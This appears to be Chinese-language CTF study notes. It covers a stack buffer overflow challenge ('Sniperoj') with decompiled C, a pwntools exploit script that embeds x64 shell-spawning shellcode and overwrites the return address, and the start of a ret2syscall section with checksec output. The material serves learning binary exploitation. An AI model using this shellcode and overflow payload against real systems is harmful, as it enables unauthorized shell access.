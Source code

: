 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf; // [rsp+0h] [rbp-10h]
  __int64 v5; // [rsp+8h] [rbp-8h]

  buf = 0LL;
  v5 = 0LL;
  setvbuf(_bss_start, 0LL, 1, 0LL);
  puts("Welcome to Sniperoj!");
  printf("Do your kown what is it : [%p] ?\n", &buf);
  puts("Now give me your answer : ");
  read(0, &buf, 64uLL);
  return 0;
}
```

NX 关了，还给了 buf 的地址，所以就直接在栈里填 shellcode 然后执行。

但是不能填在 buf 起始的 24 bytes 处，因为 shellcode 里有 push 的话就会覆盖自身。

所以就在返回地址后填充 shellcode，大小限制不再是 24 而是 32，因为 read 一共就读入 64 ，没注意看卡了半天。。。tcl

```python
from pwn import *

r = process('./shellcode')

shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
print disasm(shellcode_x64)

offset = 0x10 + 8
r.recvuntil('[')
buf_addr = r.recvuntil(']', drop=True)
print buf_addr
buf_addr = int(buf_addr, 16)
payload = 'a'*offset + p64(buf_addr + 32) + asm(shellcode_x64)

r.sendline(payload)
r.interactive()
```

主要问题还是找短的 shellcode，在 [exploitdb](https://www.exploit-db.com/) 里可以找到。有的 shellcode 长度符合但是并不能成功，看代码也没看出来为什么，之后还是学一下怎么写。

## ret2syscall

控制程序执行系统调用

[ret2syscall](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2syscall/bamboofox-ret2syscall/rop)

```shell
gef➤  checksec
[+] checksec for '/home/kali/pwn/ret2syscall'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```
